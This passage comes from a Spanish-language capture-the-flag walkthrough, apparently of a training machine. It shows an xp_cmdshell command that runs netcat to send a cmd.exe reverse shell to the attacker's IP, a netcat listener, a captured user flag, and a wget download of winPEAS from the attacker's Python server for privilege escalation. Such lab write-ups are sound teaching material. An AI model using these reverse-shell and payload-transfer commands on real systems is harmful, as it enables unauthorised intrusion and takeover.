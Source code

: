 Nos ponemos en escucha, por el puerto 4444:

```bash
nc -lvnp 4444
```

Vamos a la maquina victima y ejecutamos el archivo, con los siguientes parametros:
```powershell
xp_cmdshell "c:\\Users\Public\\nc64.exe -e cmd.exe 10.10.14.255 4444" 
```

Con este le enviamos la shell a nuestra ip, por el puerto 4444.


![img](/assets/img/post/archetype/shell.png) 

Tenemos una shell Como system32.

Nos dirigimos al directorio Users y tenemos la userflag en localizada.

Se encuentra en este directorio.

```
C:\Users\sql_svc\Desktop
```


```powershell
C:\Users\sql_svc\Desktop > type user.txt
type user.txt
3e7b102e78218e935bf3f495*****
```

## Elevar Privilegios

Utilizaremos Winpeas para ver posibles maneras de elevar privilegios en la maquina victina.

Descargamos la herramienta, aqui te dejo el link. 
- https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe

Pasamos el archivo a la maquina victima de la misma manera que lo hicimos anteriormente.

Montamos nuestro server en python:
```bash
python3 -m http.server
```

Para Obtener nuestro archivo en nuestro sistema de destino. Tenemos que cambiar a PowerShell porque cmd.exe no tiene wget:

```text
powershell
```
```text
wget http://10.10.14.255:8000/winPEASx64.exe -outfile winPEASx64.exe
```
Ya tenemos el archivo en la maquina victima.
